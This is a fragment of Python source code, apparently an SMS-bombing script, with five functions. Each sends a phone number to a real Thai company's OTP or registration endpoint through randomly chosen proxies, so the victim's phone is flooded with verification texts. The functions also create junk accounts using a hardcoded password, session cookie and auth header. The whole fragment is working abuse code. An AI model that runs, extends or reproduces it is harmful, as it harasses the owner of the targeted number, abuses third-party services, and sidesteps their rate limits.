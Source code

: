 	
def api9(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp", data={"mobile_phone_no":phone},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
	
def api10(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.get(f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=0{phone}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
	
def api11(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://www.mtsblockchain.com/mgb-api/user/register/reqotp",json={"mobile": phone},headers={"Content-Type":"application/json","Cookie":"_ga=GA1.2.1476569446.1657959172; _gid=GA1.2.587325211.1657959172; _gat_gtag_UA_230676474_1=1; connect.sid=s%3Avu1rVQbmGkMrSzQS7GYQ-y4VHMxHdmH7.zuhlp%2BBtukL2ksityudE9OTqdUH5G3dk3XHm3zNEHIs; cookie_policy_accepted=1","User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
	
def api12(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register",json={"username": phone,"password":"6302814184624az","name":"0903281894","provinceCode":"28","districtCode":"393","subdistrictCode":"3494","zipcode":"40260","siebelCustomerTypeId":"710","acceptTermAndCondition":"true","hasSeenConsent":"false","locale":"th_TH"},proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	
def api13(phone):
	da = datetime.datetime.now()
	ok = da.strftime("%H:%M:%S")
	r = requests.post("https://api.ulive.youpik.com/api-base/sms/sendCode",headers={"authorization": "Basic d2ViQXBwOndlYkFwcA==","content-type": "application/x-www-form-urlencoded;charset=UTF-8","user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"},data=f"phone={phone[1:]}&type=1",proxies={'http': 'http://' + random.choice(s)})
	if r.status_code == 200 or r.status_code == 201:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[32mRequest Success | {r.status_code}")
	else:
		print(f"\x1b[31m[\x1b[00m{ok}\x1b[31m] \x1b[00m: \x1b[31mRequest False   | {r.status_code}")
	